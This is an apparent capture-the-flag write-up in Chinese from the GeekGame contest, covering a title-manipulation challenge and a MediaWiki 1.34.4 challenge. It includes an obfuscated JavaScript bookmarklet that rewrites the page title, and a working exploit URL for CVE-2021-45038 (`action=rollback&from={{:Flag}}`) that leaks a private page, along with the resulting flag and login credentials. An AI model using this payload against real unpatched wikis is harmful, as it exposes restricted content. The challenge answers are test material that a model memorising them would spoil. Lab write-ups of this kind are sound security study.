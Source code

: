 这相当于调用了 `title.append([""], "FLAG 内容")` 。非常的奇妙，竟然能直接 `append` 多个变量进去，我 ^TM^ 感觉我之前白费了几个小时。

第一个 flag 不会拿。我写了段能把标题改成那段文本的 JS , 感觉没有办法把它伪装成 QUERY：

```js
javascript:document['getElementsByTagName']`title`[0]['childNodes'][0]['remove']``,document['getElementsByTagName']`title`[0]['append']`Unsafe${'GIVE-ME-FLAG-1 #'}${String['fromCharCode']`61`}${'_'}${String['fromCharCode']`61`}${' @!+!@ ^~^ '}${String['fromCharCode']`37`}${'[*'}${String['fromCharCode']`46`}${'*]'}${String['fromCharCode']`37`}`,document['getElementsByTagName']`title`[0]['childNodes'][0]['remove']``//
```

看了第二阶段的提示，没想到把 IP 地址伪装成 QUERY 的办法。

## 私有笔记

打开题目，进来就是 CVE 的定义，出题人在明示我们找 CVE。

点进软件版本链接，发现 MediaWiki 的版本是 1.34.4， 有点旧。

浏览了一圈 MediaWiki 的 CVE，从一个 CVE 里面点进 [2021-12 security release/FAQ](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)。发现了几个比较有意思的 CVE：

- CVE-2021-44858: The "undo" feature (`action=edit&undo=##&undoafter=###`) allowed an attacker to view the contents of arbitrary revisions,  regardless of whether they had permissions to do so. This was also found in the "mcrundo" and "mcrrestore" actions (`action=mcrundo` and `action=mcrrestore`).
- CVE-2021-45038: The "rollback" feature (`action=rollback`) could be passed a specially crafted parameter that allowed an attacker  to view the contents of arbitrary pages, regardless of whether they had  permissions to do so.
- CVE-2021-44857: The "mcrundo" and "mcrrestore" actions (`action=mcrundo` and `action=mcrrestore`) did not properly check for editing permissions, and allowed an attacker to take the content of any arbitrary revision and save it on any page  of their choosing. This affects both public wikis and public pages on  private wikis.

网页上有一节：How can I see if someone exploited it on my wiki?

提到了

> For the rollback bug, look for `action=rollback&from=...` where the "from" parameter is a template transclusion (for example, `from={{:private page}}`).

那么访问以下网址就能拿到 flag1 了

```
https://prob07-xxxxxxx.geekgame.pku.edu.cn/index.php?action=rollback&from={{:Flag}}
```

页面上会有几段重复的

> 无法回退[[User:You can use the following username and password to login:
>
> - User name: Flag1
> - Password: flag{insecure_01d_mediavviki}
>
> Try RCE to find Flag 2.|

如何 RCE 呢？我登陆进去翻了翻配置页面，好像没有能够注入 PHP 代码的选项。
